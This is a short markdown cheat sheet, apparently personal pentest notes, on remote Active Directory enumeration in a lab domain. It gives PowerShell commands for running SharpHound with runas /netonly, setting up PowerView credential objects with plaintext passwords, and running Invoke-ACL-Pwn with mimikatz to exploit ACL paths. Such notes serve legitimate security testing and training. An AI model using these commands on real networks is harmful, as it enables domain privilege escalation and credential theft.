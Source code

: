 # Remote Enumeration
## With Domain Creds
### Run SharpHound remotely with creds
> This can be used to run any binary or powershell script remotely e.g. invoke-mimikatz

```powershell
# Switch to a world writable directory so we have permission to write files to disk
cd \windows\tasks

# the netonly command means creds are only used for network access
runas /netonly /user:lab.local\administrator cmd.exe

# verify we are using the correct creds using
net view \\WIN-8K30QDLT1AP.lab.local\

# run bloodhound remotely, pass -d argument to specify the domain name
C:\tools\SharpHound-v1.0.4\SharpHound.exe -d "lab.local"
```

### Run PowerView remotely with creds
1. Import powerview
```powershell
import-module .\powerview.ps1
```

2. Setup the credentials object
```powershell
$passwd = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("lab.local\administrator", $passwd)
```

### Run Invoke-ACL-Pwn Remotely with creds
```powershell
# add the -WhatIf flag to view pathes before exploitation
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
```